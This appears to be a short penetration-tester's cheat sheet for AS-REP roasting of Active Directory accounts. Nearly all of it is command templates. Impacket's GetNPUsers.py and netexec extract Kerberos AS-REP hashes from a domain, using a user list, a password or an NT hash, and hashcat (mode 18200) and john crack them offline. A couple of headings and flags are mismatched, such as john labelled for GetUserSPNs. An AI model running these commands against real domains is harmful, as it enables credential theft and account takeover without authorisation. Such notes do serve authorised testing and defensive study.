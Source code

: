 # getnpusers
#plateform/linux #target/remote #cat/ATTACK

## ASREPRoast
```
GetNPUsers.py -usersfile <users_file|users.txt> -outputfile hashes.asreproast <domain>/
```

## ASREPRoasting with nxc
```
netexec ldap <TARGETS> -u <USER> -p <PASSWORD> --kerberoasting ASREPRoastables.txt --kdcHost <KeyDistributionCenter>
```

## ASREPRoasting users list dynamically queried with a LDAP authenticated bind (password)
```
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'
```

## ASREPRoasting users list dynamically queried with a LDAP authenticated bind (NT hash)
```
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```


## Crack ASREPRoast
```
hashcat -m 18200 --force -a 0 <hash_file> </path/to/wordlist>
```

## crack GetUserSPNs using john
```
john --wordlist=$wordlist ASREProastables.txt
```

